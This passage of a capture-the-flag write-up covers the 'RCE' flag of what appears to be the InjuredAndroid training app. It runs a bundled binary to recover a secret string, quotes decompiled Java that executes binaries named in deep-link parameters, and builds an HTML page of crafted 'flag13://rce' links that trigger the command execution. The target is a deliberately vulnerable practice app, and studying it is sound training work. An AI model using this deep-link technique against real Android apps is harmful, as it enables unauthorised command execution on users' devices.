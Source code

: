If not, just give **chmod +x** command to the binary.
I'll use **ghidra** for get information about this binary.
And searching for strings, I found this:

![[injuredAndroid11.png]]

This appear as an **help** menu command.
Then, in my box I execute the commands **chmod +x** and run the binary with help param.
```bash
./narnia.x86_64 --help
Available commands are testOne, rick, testTwo, potato, testThree
```

If we run
```bash
./narnia.x86_64 testOne
Treasure
./narnia.x86_64 testTwo
_
./narnia.x86_64 testThree
Planet
```

We have **Treasure_Planet** string.

According to the **java** code of the **RCEActivity** class
```java
try {  
                    d.s.d.g.c(data);  
                    String queryParameter = data.getQueryParameter("binary");  
                    String queryParameter2 = data.getQueryParameter("param");  
                    String queryParameter3 = data.getQueryParameter("combined");
```

We can try go to the **URL**.
Until now, we have **flag13://rce**

Then, we can call the url with the previous params, like:
**flag13://rce?binary=narnia.x86_64&param=testOne**
**flag13://rce?binary=narnia.x86_64&param=testTwo**
**flag13://rce?binary=narnia.x86_64&param=testThree**

And the **combined** param?
```java
if (queryParameter3 != null) {  
                        this.x.b(new b(queryParameter3));  
                    } else {  
                        Runtime runtime = Runtime.getRuntime();  
                        StringBuilder sb = new StringBuilder();
[...]
```

It's look like
**flag13://rce?combined=Treasure_Planet**

Now, we can create an **index.html** file with
```HTML
<html>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testOne">One</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testTwo">Two</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testThree">Three</p>
<p><a href="flag13://rce?combined=Treasure_Planet">RCE</p>
</html>
```
